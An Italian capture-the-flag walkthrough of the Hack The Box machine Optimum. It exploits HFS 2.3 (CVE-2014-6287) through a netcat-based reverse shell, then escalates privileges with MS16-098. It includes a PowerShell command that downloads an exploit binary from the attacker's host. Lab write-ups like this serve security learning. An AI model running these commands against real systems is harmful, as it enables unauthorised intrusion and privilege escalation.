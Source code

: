 # Optimum

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.10.8
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Il risultato della scansione è il seguente:

```text
Nmap scan report for 10.10.10.8
Host is up (0.047s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2012|8|Phone|7 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 (89%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (89%), Microsoft Windows Server 2012 R2 (89%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Embedded Standard 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Enumeration
Visito la pagina http://10.10.10.8/:

<p align="center">
  <img src="/Immagini/Windows-Box/optimum/optimum-1.png"/>
</p>

HFS è un semplice programma per la condivisone dei file via HTTP senza installare nessun web server specifico sulla propria macchina.

Facendo una rapida ricerca scopro che la versione di HFS 2.3 è vulnerabile (CVE-2014-6287). La funzione _findMacroMarker_ presente nella libreria _parserLib.pas_ consente agli aggressori di eseguire programmi arbitrari.

## Exploitation
Utilizzo il comando _searchsploit_:

<p align="center">
  <img src="/Immagini/Windows-Box/optimum/optimum-2.png"/>
</p>

Quindi scarico il file _39161.py_. Dopo aver modificato alcuni campi, noto che è necessario mettere in piedi un web server (porta 80) sulla macchina di attacco in una directory che ha il file eseguibile netcat nc.exe.

Successivamente avvio un listener sulla porta specificata all'internod dello script e lancio il programma in pyrhon:

<p align="center">
  <img src="/Immagini/Windows-Box/optimum/optimum-3.png"/>
</p>

**Ottengo cosi il primo flag!**

## Privilege Escalation
Decido di utilizzare per la prima volta nella vita [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) per identificare l'assenza di patch sul target per poter scalare i privilegi.

Per prima cosa scarico lo script:

```text
git clone https://github.com/GDSSecurity/Windows-Exploit-Suggester.git
```

Successivamente, installo le dipendenze e aggiorno il database:

```text
pip install xlrd --upgrade
```

```text
./windows-exploit-suggester.py --update
```

Quindi lancio il comando _systeminfo_ per recuperare le informazioni sulla macchina _Optimum_, ottenendo il seguente risultato:

```text
C:\Users\kostas\Desktop>systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00252-70000-00000-AA535
Original Install Date:     18/3/2017, 1:51:36   
System Boot Time:          20/12/2023, 7:49:25   
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest
Total Physical Memory:     4.095 MB
Available Physical Memory: 3.532 MB
Virtual Memory: Max Size:  5.503 MB
Virtual Memory: Available: 4.728 MB
Virtual Memory: In Use:    775 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              \\OPTIMUM
Hotfix(s):                 31 Hotfix(s) Installed.
                           [01]: KB2959936
                           [02]: KB2896496
                           [03]: KB2919355
                           [04]: KB2920189
                           [05]: KB2928120
                           [06]: KB2931358
                           [07]: KB2931366
                           [08]: KB2933826
                           [09]: KB2938772
                           [10]: KB2949621
                           [11]: KB2954879
                           [12]: KB2958262
                           [13]: KB2958263
                           [14]: KB2961072
                           [15]: KB2965500
                           [16]: KB2966407
                           [17]: KB2967917
                           [18]: KB2971203
                           [19]: KB2971850
                           [20]: KB2973351
                           [21]: KB2973448
                           [22]: KB2975061
                           [23]: KB2976627
                           [24]: KB2977629
                           [25]: KB2981580
                           [26]: KB2987107
                           [27]: KB2989647
                           [28]: KB2998527
                           [29]: KB3000850
                           [30]: KB3003057
                           [31]: KB3014442
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.8
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed
```

Copio questo output su un file _sysinfo.txt_ nella stessa cartella di Windows Exploit Suggester e lancio il seguente comando:

```text
./windows-exploit-suggester.py --database 2023-12-14-mssb.xls --systeminfo sysinfo.txt
```

Il sitema sembra vulnerabile a molti exploit! Provo con MS16–098. Facendo una ricerca trovo un [eseguibile](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe) che trasferisco sulla macchina _Optimum_ tramite un server http creato con python.

Per trasferirlo utilizzo il seguente comando:

```text
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.8:4444/41020.exe', 'c:\Users\Public\Downloads\41020.exe')"
```

Successivamente, eseguo il binario:

<p align="center">
  <img src="/Immagini/Windows-Box/optimum/optimum-4.png"/>
</p>

**Sono root!**
